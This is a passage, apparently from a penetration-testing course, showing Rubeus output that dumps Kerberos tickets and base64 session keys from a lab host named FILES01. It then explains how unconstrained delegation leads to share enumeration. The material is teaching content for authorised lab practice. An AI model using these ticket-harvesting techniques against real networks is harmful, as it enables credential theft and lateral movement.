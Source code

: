 ```
    UserName                 :  adam
    UserRealm                :  CORP.COM
    StartTime                :  5/12/2023 3:28:56 AM
    EndTime                  :  5/12/2023 1:28:56 PM
    RenewTill                :  5/19/2023 3:28:56 AM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  uURS1MVAicyL8xxI7L9RjWllYeTTUVuOl13zKTQeE9c=
    Base64EncodedTicket   :

      doIFajCCBWagAwIBBaEDAgEWoo...


    ServiceName              :  LDAP/DC01.corp.com/corp.com
    ServiceRealm             :  CORP.COM
    UserName                 :  adam
    UserRealm                :  CORP.COM
    StartTime                :  5/12/2023 3:28:56 AM
    EndTime                  :  5/12/2023 1:28:56 PM
    RenewTill                :  5/19/2023 3:28:56 AM
    Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  MCUmxxuchKnUNEkYfQAJgdipOy4SjPJGOZxzV2UZgws=
    Base64EncodedTicket   :

      doIF5jCCBeKgAwIBBaEDAgEWoo...

  UserName                 : FILES01$
  Domain                   : CORP
  LogonId                  : 0x3e4
  UserSID                  : S-1-5-20
  AuthenticationPackage    : Negotiate
  LogonType                : Service
  LogonTime                : 5/12/2023 1:57:59 AM
  LogonServer              :
  LogonServerDNSDomain     :
  UserPrincipalName        :  FILES01$@corp.com
...
```

> Listing 2 - Dumping existing tickets on FILES01 with Rubeus

We find TGTs and TGSs related to the _adam_ user along with the computer account, but no other domain users.

Typically, a machine would only be configured with unconstrained delegation because it hosts an application that requires it. In this case, given the target name, users most likely access shares on the machine via _CIFS_.[6](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5525-6)

We can verify this by enumerating shares on the machine. The **net share** command shows the available shares.
